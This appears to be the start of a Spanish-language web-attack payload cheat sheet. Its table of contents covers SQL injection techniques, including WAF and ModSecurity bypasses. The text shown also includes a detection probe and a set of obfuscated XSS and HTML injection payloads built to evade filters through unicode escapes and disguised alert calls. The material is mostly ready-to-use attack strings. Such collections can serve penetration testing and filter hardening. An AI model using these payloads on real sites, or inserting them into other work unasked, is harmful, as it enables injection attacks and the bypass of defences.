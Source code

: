         * [SQL IFNULL](#SQL-IFNULL)
        * [SQL NULLIF](#SQL-NULLIF)
        * [Sql inyection payload usando upper + reverse + right + sounds like](#Sql-inyection-payload-usando-upper-+-reverse-+-right-+-sounds-like)
        * [SQL injection usando doble reverse + right + if statement + HTML injection](#SQL-injection-usando-doble-reverse-+-right-+-if-statement-+-HTML-injection)
        * [Sql inyection usando las funciones HEX-UNHEX](#Sql-inyection-usando-las-funciones-HEX-UNHEX)
        * [Inyección sql tipo error based usando Extractvalue](#Inyección-sql-tipo-error-based-usando-Extractvalue)
        * [Sql inyection payload usando reverse](#Sql-inyection-payload-usando-reverse)
        * [Sql inyection payload usando extractvalue](#Sql-inyection-payload-usando-extractvalue)
        * [Sql inyection payload + url encode + timing](#Sql-inyection-payload-+-url-encode-+-timing)
        * [JSON Generation Functions](#JSON-Generation-Functions)
        * [Mezclas](#Mezclas)
    * [Sql inyection + dios sql](#Sql-inyection-+-dios-sql)
    * [Sql inyection Buffer Overflow / Firewall Crash bypass + xss inyection](#Sql-inyection-Buffer-Overflow-/-Firewall-Crash-bypass-+-xss-inyection)
    * [sql inyection payload+ bypass Mod_Security](#sql-inyection-payload+-bypass-Mod_Security)
    * [Sql inyection payload + comment + hex/unhex](#Sql-inyection-payload-+-comment-+-hex/unhex)
    * [Sql inyection payload + url encode](#Sql-inyection-payload-+-url-encode)
    * [MSSQL](#MSSQL)
    * [Xpath injection](#Xpath-injection)
    * [Error based](#Error-based)
        
        
   
   
  
   
   

### Para detectar errores: sql inyection, xss inyection y HTML inyection

`'"><script>alert(1)</script><h1>d</h1>`

## INYECCIÓNES XSS Y HTML

### h1

```
<h1 onclick=\u0041\u006cert("_Y000!_")>Y00</h1>

<a onclick=\u0041\u006cert("_Y000!_")>Y00</a>

<p onclick=\u0041\u006cert("_Y000!_")>Y00</p>

<marquee onclick=\u0041\u006cert("_Y000!_")>Y00</marquee>

```

### onMouseOver

```
onMouseOver=<script>alert("/XSS BY Y000!/")</script>

</script><h1 onmouseover= top[8680439..toString(30)]("_Y000!_")>

</script><h1 onmouseover=top[/al/.source+/ert/.source]("_Y000!_")>

</script><h1 onmouseover=["_Y000!_"].find(alert)>

</script><h1 onmouseover= (((confirm)))`_Y000!_`>
```
